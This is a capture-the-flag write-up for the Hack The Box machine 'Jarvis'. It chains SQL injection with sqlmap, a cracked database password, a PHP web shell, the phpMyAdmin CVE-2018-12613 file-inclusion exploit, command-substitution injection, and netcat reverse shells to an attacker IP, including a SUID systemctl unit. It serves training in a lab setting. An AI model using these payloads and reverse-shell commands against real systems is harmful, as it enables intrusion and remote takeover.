

<p align="center">
    
</p>

<center>

**JARVIS**

| OS                                                                                  | Difficulty                               | Points | IP           |
| :---------------------------------------------------------------------------------- | :--------------------------------------- | :----- | :----------- |
|  Linux | <span style="color:orange">Medium</span> | 30     | 10.10.10.143 |

</center>

# Jarvis

Jarvis is a machine created by **manulqwerty** & **Ghostpp7**. It involves an SQL inyection vulnerability available in
the web server which we can exploit to enumerate the database credentials and even get code execution on the machine.
The version of **phpmyadmin** available on this machine is vulnerable to a LFI vulnerability that can be exploited as an
alternative entry point. With an initial foothold as the user *www-data* we need to exploit a vulnerable python script to
elevate our privileges as user *pepper* (now being able to read *user.txt* flag). Finally, it is our task to leverage a
*SUID* binary to escalate our privileges as user *root* and, therefore, complete the machine.

## Initial enumeration

As always, lets begin with an *nmap* scan to see which ports are opened:

```
$ nmap -p- -Pn --max-retries=1 -sC -sV -oN nmap/tcp jarvis.htb

Nmap scan report for jarvis.htb (10.10.10.143)
Host is up (0.038s latency).
rDNS record for 10.10.10.143: jarvis
Not shown: 65517 closed ports
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open     http      Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open     http      Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Three ports are opened: port 22 (SSH), port 80 (Apache httpd) and port 64999 (Apache httpd). The *OpenSSH* service seems
reasonably up to date, there might be a user-enumeration exploit available for that version but it doesn't seem very
relevant right at this point.

### Port 64999

This port is quite odd, the only thing that appears to be available is a page with the following simple text:

```
Hey you have been banned for 90 seconds, don't be bad
```

A *gobuster* scan didn't show anything more so, for now, lets move to the next port.

### Port 80 (Stark Hotel)

<p align="center">
    
</p>

A quick *gobuster* scan yielded the following results:

```
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u http://jarvis.htb/

/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 301)
/sass (Status: 301)
```

This is interesting because we can already infer some information, the server is probably using some kind of *MySQL*
database. Furthermore, we can take a look at the documentation available for *phpmyadmin* to see if the version being
used is outdated and vulnerable. Luckily for us, the local documentation is available and we can navigate it to find
out which version of *phpmyadmin* is likely to be running:

<p align="center">
    
</p>

As seen in the top-left corner, the version appears to be *4.8.0* which, in fact, turns to be vulnerable to a couple
of CVEs, one of which can be escalated to achieve [RCE](https://nvd.nist.gov/vuln/detail/CVE-2018-12613). Unfortunately,
every interesting vulnerability requires some kind of authentication and, without even a username, we can't exploit them.

Lets move then to the main website, the **Stark Hotel**. Before doing a more exhaustive *gobuster* scan, we can manually
explore the website and quickly find one interesting page:

```
http://jarvis.htb/room.php?cod=1
```

<p align="center">
    
</p>

The PHP file *room.php* seems to display information about the requested room. We can request information about other
rooms using the **cod** *GET parameter*:

```
http://jarvis.htb/room.php?cod=1  # Superior Family Room
http://jarvis.htb/room.php?cod=2  # Suite
http://jarvis.htb/room.php?cod=3  # Double Room
```

If we recall from earlier, we supposed there was some kind of *MySQL* database being used and this seems like a good
candidate for the purpose of this database so lets try a couple of things to see if it is inyectable:

```
http://jarvis.htb/room.php?cod=1               # Superior Family Room
http://jarvis.htb/room.php?cod=2-1             # Same as cod=1

http://jarvis.htb/room.php?cod=1 and 1=1       # Same as cod=1
http://jarvis.htb/room.php?cod=1 and 1=2       # Fails (doesn't display any room)
```

Bingo, the parameter *cod* seems to be *injectable*. In order to learn more about this vulnerability we can use the
powerful tool **sqlmap**.

```
$ sqlmap -u 'http://jarvis.htb/room.php?cod=1'
[...]
[13:06:22] [CRITICAL] connection dropped or unknown HTTP status code received. [...]
[13:06:23] [WARNING] turning off pre-connect mechanism because of connection reset(s)
[13:06:23] [WARNING] there is a possibility that the target (or WAF/IPS) is resetting 'suspicious' requests
[13:06:24] [CRITICAL] unable to connect to the target URL ('Connection refused')
[13:06:24] [WARNING] parameter length constraining mechanism detected (e.g. Suhosin patch). Potential problems in enumeration phase can be expected
[...]
```

After some basic testings, sqlmap detected the presence of a *WAF/IPS*. In fact, when I tried to return to the page
I found this:

<p align="center">
    
</p>

This is the same page we found earlier on *port 64999*. Luckily for us, we can tweak some of *sqlmap* options and
try to bypasss this filter. After waiting 90 seconds to get unbanned, I tried *sqlmap* again with some additional
options:

```
$ sqlmap -u 'http://jarvis.htb/room.php?cod=1' --random-agent --level=1 --tamper=charencode

[...]
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 4622=4622

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 6252 FROM (SELECT(SLEEP(5)))MGmU)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-5166 UNION ALL SELECT NULL,NULL,CONCAT(0x7171626271,0x62596a69546a7763476f6c44644a6270664554754c675452576a5a6a47574a414b46654252455667,0x7178787071),NULL,NULL,NULL,NULL-- xxzu
---
[13:20:25] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[13:20:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[...]
```

Now we can use **sqlmap** to exploit the inyection and dump information such as the current database user and even the password hash.

```
$ sqlmap -u 'http://jarvis.htb/room.php?cod=1' --random-agent --level=1 --tamper=charencode --current-user --password

[...]
current user: 'DBadmin@localhost'
[11:46:32] [INFO] fetching database users password hashes
[11:46:32] [INFO] used SQL query returns 1 entry
[11:46:33] [INFO] used SQL query returns 1 entry
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] n
database management system users password hashes:
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
[...]
```

Now we can try to crack this hash using, for example, [crackstation](https://crackstation.net/):

<p align="center">
    
</p>

Perfect, we have managed to enumerate a username, *DBadmin*, and its password, *imissyou*. With the database credentials
we can now log into *phpmyadmin* and manually examine the whole database. Unfortunately for us, there is not much information
there about other users in the machine whose credentials we could use to log in via *SSH* but we have more than we need now
to get code execution on the server and get an initial foothold.

Before moving on with the initial foothold, there is an interesting thing to notice in the *hotel* table, there is *HTML*
code used to render the star rating stored directly in a row, this means that we can insert *JavaScript* code that will be
executed from every client's browser that requests information about that specific room. Here we can see an example of what
would happen if we add a simple ```<script> alert("hello world!"); </script>``` in the room with *cod* 6:

<p align="center">
    
</p>

<p align="center">
    
</p>

Apart from messing around with other *Hack The Box* players (which is not a good thing to do), this has little to no
use in our task of getting into the machine but it is interesting since this kind of attack can be very powerful in
a real-world scenario.

## Initial foothold

There are multiple ways of achieving RCE on this machine, the most obvious and easy one is to use *sqlmap's os-shell* feature.
Here, I will explore other methods for the sake of it.

### Using phpmyadmin SQL console

Using the *SQL console* available in *phpmyadmin* we can create a query that looks like this:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/tmkpf7.php";
```

Using a random, hard-to-guess, name will avoid other users running into your script when enumerating the box. Next, we
just need to request this file to the server, supplying the desired command as the *cmd* GET parameter:

<p align="center">
    
</p>

### Exploiting CVE-2018–12613

A more detailed description of the vulnerability can be found [here](https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e).
Basically, we can include any file we want from the remote server in a request like this:

```
http://jarvis.htb/phpmyadmin/index.php?target=sql.php%3f/../../../../etc/passwd
```

<p align="center">
    
</p>

We can escalate this to achieve **Remote Code Execution**. Using the */phpmyadmin/examples/signon.php* form, we can write PHP
code in a log file that we can later include:

<p align="center">
    
</p>

By writing ```<pre><?php echo shell_exec($_GET["cmd"]); ?>``` as the username we will be inserting PHP code that will
execute the command specified in the GET *cmd* parameter. We just need to grab the **SignonSession** cookie and make
a request like ```http://jarvis.htb/phpmyadmin/index.php?target=sql.php%3f/../../../../var/lib/php/sessions/sess_<SignonSessionCookie>&cmd=<command>```
and the command specified in *cmd* will be executed in the server and the output of that command reflected on the page.

<p align="center">
    
</p>

## Escalating to pepper (user.txt flag)

With a little bit of work we can manage to stabilize our shell and get a propper foothold. Our next target is the
*user.txt* flag. The flag happens to be only readable by users from the group **pepper** (apart from root obviously).

```
$ ls -la /home/pepper/user.txt
-r--r----- 1 root pepper 33 Mar  5  2019 /home/pepper/user.txt
```

This means we need to escalate to **pepper** in order to be able to read the flag. The entry vector appears to be the
[simpler.py](resources/scripts/simpler.py) script since can execute it as the user *pepper* without needing the password:

```
www-data@jarvis:/var/www/Admin-Utilities$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Taking a look at this file we can spot a juicy function, executed when we supply the option *-p* when executing the
script:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

This function is intended to execute a *ping* to the IP address we supply via stdin. In an attempt to prevent command
inyection, some characters are filtered ('&', ';', '-', '`', '||', '|'). However, we can use '$' and '/' which allow
us to exploit a *bash* feature called [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html).

```bash
# From bash manual:
# "Bash performs the expansion by executing command in a subshell environment and replacing the
# command substitution with the standard output of the command"

echo $(whoami)   # whoami is executed first, in a subshell environment.
echo "www-data"  # $(whoami) is substituted by its standard output and "www-data" is echoed.
```

This means we can execute whatever we want before the actual *ping* is made. Since the character '-' is filtered, some
of our options are restricted as we cannot supply any options to the commands. However, the character '/' is allowed,
which means we can create a *shell script*, give it execution permissions and then supply the path to that script inside
the '$(...)' construct.

```bash
export REVSHELL='/dev/shm/revshell.sh'
echo 'nc -n 10.10.14.125 4338 -e /bin/bash' > $REVSHELL && chmod +x $REVSHELL
echo '$('$REVSHELL')' | sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

That should be enough to give us a reverse shell as user *pepper*. The next step is to head to */home/pepper* directory
and read the *user.txt* flag.

## Root

As part of the usual enumeration, we can have a look at the *SUID* binaries:

```
pepper@jarvis:~$ find / -perm -4000 -type f -ls 2>/dev/null
  1310951     32 -rwsr-xr-x   1 root     root        30800 Aug 21  2018 /bin/fusermount
  1310809     44 -rwsr-xr-x   1 root     root        44304 Mar  7  2018 /bin/mount
  1310906     60 -rwsr-xr-x   1 root     root        61240 Nov 10  2016 /bin/ping
  1312201    172 -rwsr-x---   1 root     pepper     174520 Feb 17  2019 /bin/systemctl
  1310810     32 -rwsr-xr-x   1 root     root        31720 Mar  7  2018 /bin/umount
  1310807     40 -rwsr-xr-x   1 root     root        40536 May 17  2017 /bin/su
  1444734     40 -rwsr-xr-x   1 root     root        40312 May 17  2017 /usr/bin/newgrp
  1441873     60 -rwsr-xr-x   1 root     root        59680 May 17  2017 /usr/bin/passwd
  1441872     76 -rwsr-xr-x   1 root     root        75792 May 17  2017 /usr/bin/gpasswd
  1441870     40 -rwsr-xr-x   1 root     root        40504 May 17  2017 /usr/bin/chsh
  1453559    140 -rwsr-xr-x   1 root     root       140944 Jun  5  2017 /usr/bin/sudo
  1441869     52 -rwsr-xr-x   1 root     root        50040 May 17  2017 /usr/bin/chfn
  1574579     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
  1707587    432 -rwsr-xr-x   1 root     root       440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
```

Apart from the usual ones, we have **/bin/systemctl** available. This binary usually requires *root* privileges for a reason,
it controls the "System and Service Manager". With such power, we can exploit it to access the file system, escalate or mantain
access with elevated privileges. From [GTFOBins](https://gtfobins.github.io/):

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/bash 10.10.14.125 4339"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

This will grant us a reverse shell and we will have full access to the machine.
